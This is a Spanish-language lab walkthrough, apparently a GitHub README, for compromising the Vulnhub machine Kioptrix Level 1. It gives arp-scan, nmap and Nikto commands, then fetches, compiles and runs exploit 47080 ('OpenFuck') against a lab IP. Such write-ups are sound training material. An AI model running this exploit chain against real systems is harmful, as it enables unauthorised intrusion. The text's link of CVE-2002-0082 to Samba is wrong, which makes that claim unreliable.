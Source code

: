 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=320&height=80&lines=KIOPTRIX_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/kioptrix-level-1-1,22/

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con Arp-Scan. 
```
arp-scan --interface wlan0 -l
```
![1](https://user-images.githubusercontent.com/75953873/177676522-7542cd60-297b-4537-a657-a6e613e22122.png)

IP host: `192.168.1.104`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.104
```
![2](https://user-images.githubusercontent.com/75953873/177677054-4379065b-7b00-4c1a-a2b7-63688488f52e.png)

Puertos abiertos: [22,80,111,139,443]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80,111,139,443 -A 192.168.1.104
```
![3](https://user-images.githubusercontent.com/75953873/177677619-5b6fa806-14d5-4474-b6a8-800e1a8b8618.png)

![4](https://user-images.githubusercontent.com/75953873/177677647-f1513f29-98ca-40bd-901e-ac9466faa0aa.png)

Servidor corriendo: **HTTP Apache** (puerto 80 y 443)

O.S: **Linux**

URL: `http://192.168.1.104`

![5](https://user-images.githubusercontent.com/75953873/177677946-e9cfd943-0c77-44a3-991c-c2d5a0377648.png)

- *Paso 4:* Escanear vulnerabilidades en el servidor con Nikto. 
```
nikto -h http:///192.168.1.104
```
![6](https://user-images.githubusercontent.com/75953873/177678387-f0e381c3-874c-4919-b910-15f9fd2e5de6.png)

Vulnerabilidad **CVE-2002-0082**: permite que un atacante explote el desbordamiento de búfer que se encuentra en las versiones de Samba 2.2.0 a 2.2.8.

- https://www.cvedetails.com/cve/CVE-2002-0082/

- *Paso 5:* Localizar exploti, descargarlo, compilarlo y ejecutarlo. 
```
searchsploit -m 47080
```
![8](https://user-images.githubusercontent.com/75953873/177683169-2b356aea-a453-4d46-9e64-6bf3a0906d15.png)

```
mv 47080.c OpenFuck.c
gcc -o OpenFuck OpenFuck.c -lcrypto
./OpenFuck 0x6b 192.168.1.104
```
![7](https://user-images.githubusercontent.com/75953873/177683272-6f97282a-31d1-46be-94c9-3020f0e959be.png)

